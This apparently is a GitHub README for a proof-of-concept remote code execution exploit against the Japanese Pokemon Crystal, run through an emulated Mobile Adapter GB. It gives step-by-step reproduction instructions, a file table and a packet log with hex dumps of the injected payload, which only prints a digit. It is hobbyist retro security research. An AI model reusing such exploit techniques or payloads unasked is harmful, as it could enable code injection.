

# Tetsuji

## Tetusji - Pokemon Crystal JP Remote Code Execution

Read the blog post on [my blog](https://xcellerator.github.io/posts/tetsuji/) for a full write up of how this works.

Just wanna see it do the thing?

0. You might need to install `colorama` and `hexdump` with pip
1. Obtain a copy of the Japanese version of Pokemon Crystal (sha1sum `95127b901bbce2407daf43cce9f45d4c27ef635d`)
2. Using the [BGB emulator](https://bgb.bircd.org/), start the link cable listener (in the right-click menu) on the default port (8765)
3. Run the `mobile_adapter.py` script
4. Reset the game and you'll see the Mobile Adapter GB logo
5. In the game, go to a Pokemon Center and talk to the lady upstairs. Spam A through the menus, eventually she'll let you through to the next room
6. At the computer, you'll be asked for a phone number, enter anything you like
7. You'll see a (slow) animation of Pichu as the game connects and the messages are shuffled back and forth.
8. Eventually the game will [freeze with a single `3`](https://tmpout.sh/bggp/3/) in the top-left corner.

If you want to change the exploit's payload to something else, it's the `print_me` variable in `crystal.py`.

Many thanks to Háčky's original [writeup](https://archives.glitchcity.info/forums/board-76/thread-7509/page-0.html) for the great head start and Yuu for the original inspiration.

### Files

| Filename | Purpose |
| :-: | :-: |
| `mobile_adapter.py` | Main script for handling the communication as the Moble Adapter GB. Based on Háčky's original |
| `config.bin` | Config file for the Mobile Adapter GB. Can be deleted and recreated using the Mobile Trainer GB ROM |
| `crystal.py` | Handles the Battle Protocol in Pokemon Crystal. Injects the exploit and payload into the communication |
| `logger.py` | Logging I like to use |
| `pkm.py` | Handles some of the binary blobs that get shuffled around by Crystal |
| `pkm_list.py` | List of Pokemon and Moves as indexed in Pokemon Crystal |
| `email.txt` | Email that will be "received" over POP3 via any Mobile Adapter GB application. Contains a corrupted Ekans |
| `geodude_email.txt` | Similar to `email.txt` but contains a valid Geodude. Rename this to `email.txt` and be sure to ask for a Geodude |
| `index.html` | Simple webpage that will be loaded by the Mobile Trainer GB ROM, homepage is `/01/CGB-B9AJ/index.html` |

### Proof

Here's a gif of the exploit running and the log from `mobile_adapter.py`:



```
[+] 0x10: Opening Session (NINTENDO)
[+] 0x11: Closing Session
[+] 0x10: Opening Session (NINTENDO)
[+] 0x17: Check Telephone Line
[+] 0x17: Line Free
[+] 0x11: Closing Session
[+] 0x10: Opening Session (NINTENDO)
[+] 0x11: Closing Session
[+] 0x10: Opening Session (NINTENDO)
[+] 0x17: Check Telephone Line
[+] 0x17: Line Free
[+] 0x12: Dialling 5551337
[-] Battle: Initial Packet Received
00000000: 19 67 10 01 6C 69 6D 69  74 5F 63 72 79 73 74 61  .g..limit_crysta
00000010: 6C 00 01                                          l..
[-] Battle: 0x0d Packet Received
00000000: 1F 3A 55 6E 86 9E B5 CB  E0 F4 02                 .:Un.......
[-] Battle: 0x4d Packet Received
00000000: 01 87 D8 8C 50 50 50 87  D8 8C 50 50 50 01 37 8F  ....PPP...PPP.7.
00000010: FA FF BF FF EF FF FF 00  04 00 FF 00 00 00 00 00  ................
00000020: 10 00 00 FF FF EE FF FF  FF FF EF 00 00 00 00 00  ................
00000030: 00 00 00 FF FF FF FF FF  FF FF FF 00 00 00 00 00  ................
00000040: 00 00 01 FF FF F7 FF FF  FF FF 03                 ...........
[-] Battle: 0x53 Packet Received
00000000: 3F 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ?...............
00000010: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000020: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000030: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000040: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000050: 04                                                .
[-] Battle: 0x53 Packet Received
00000000: 3F 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ?...............
00000010: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000020: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000030: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000040: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000050: 05                                                .
[-] Battle: 0x53 Packet Received
00000000: 3F 00 00 00 00 00 00 00  BA DE C6 C1 CA 50 50 50  ?............PPP
00000010: 50 50 50 50 50 50 50 50  50 50 50 50 50 50 50 50  PPPPPPPPPPPPPPPP
00000020: 50 50 50 50 50 50 50 50  50 00 00 00 00 00 00 00  PPPPPPPPP.......
00000030: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000040: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000050: 06                                                .
[-] Battle: 0x0f Packet Received
00000000: 00 00 00 00 00 00 00 00  00 00 00 00 07           .............
[-] Battle: 0x53 Packet Received
00000000: 3F 00 00 50 50 50 05 82  8F F9 9A 17 FF FF 01 37  ?..PPP.........7
00000010: 82 00 46 7F 39 FA 01 37  03 51 9C 31 1B 3F 5A 52  ..F.9..7.Q.1.?ZR
00000020: D2 29 D9 25 6B EA AA 0F  0F 0F 0F ED 00 9E A6 37  .).%k..........7
00000030: 00 00 00 B8 00 B8 00 AE  00 7A 00 76 00 5F 00 8B  .........z.v._..
00000040: 8F 92 F9 22 AD 9C 01 37  03 4A 08 0B AC 0E 7A 0D  ..."...7.J....z.
00000050: 08                                                .
[-] Battle: 0x53 Packet Received
00000000: 3F 00 00 0C 37 DF 97 0F  0F 0F 0A 93 00 B2 3D 37  ?...7.........=7
00000010: 00 00 01 08 01 08 00 94  00 64 00 37 00 5A 00 8C  .........d.7.Z..
00000020: F9 00 10 38 69 13 01 37  04 CD 9A 06 55 07 17 07  ...8i..7....U...
00000030: 36 06 BE 07 16 FE 4E 23  05 14 0F 7D 00 BC 1F 3F  6.....N#...}...?
00000040: 00 00 00 DE 00 DE 00 8F  00 C0 00 9A 00 8E 00 DE  ................
00000050: 09                                                .
[-] Battle: 0x53 Packet Received
00000000: 3F 00 00 4B 22 94 01 37  09 B8 D5 C7 05 EA 9C E1  ?..K"..7........
00000010: 4A E5 59 D6 96 4D CF 1E  19 0F 14 FF 00 85 81 55  J.Y..M.........U
00000020: 00 00 01 1F 01 1F 00 CB  00 F8 00 D4 00 DC 00 F9  ................
00000030: 17 00 FF FF FF FF 01 37  00 1F 40 00 00 00 00 00  .......7..@.....
00000040: 00 00 00 00 00 4C F5 2B  2B 2B 2B 46 00 94 10 14  .....L.++++F....
00000050: 0A                                                .
[-] Battle: 0x53 Packet Received
00000000: 3F 00 00 2D 00 2D 00 1E  00 1B 00 21 00 17 00 1C  ?..-.-.....!....
00000010: AF 00 2D CC 94 00 01 37  00 00 64 00 00 00 00 00  ..-....7..d.....
00000020: 00 00 00 00 00 56 CD 28  14 14 00 DB 00 81 90 05  .....V.(........
00000030: 00 00 00 13 00 13 00 07  00 0C 00 08 00 0A 00 0C  ................
00000040: 87 D8 8C 50 50 50 87 D8  8C 50 50 50 87 D8 8C 50  ...PPP...PPP...P
00000050: 0B                                                .
[-] Battle: 0x3b Packet Received
00000000: 50 50 87 D8 8C 50 50 50  87 D8 8C 50 50 F0 44 FE  PP...PPP...PP.D.
00000010: 90 38 FA AF E0 40 21 00  98 06 F9 70 3E B8 E0 68  .8...@!....p>..h
00000020: AF E0 69 E0 69 AF E0 42  E0 43 3E 81 E0 40 18 FE  ..i.i..B.C>..@..
00000030: 50 50 93 08 41 E3 50 50  0C                       PP..A.PP.
[-] Battle: 0x09 Packet Received
00000000: 02 03 04 00 00 0C 0D                              .......
```
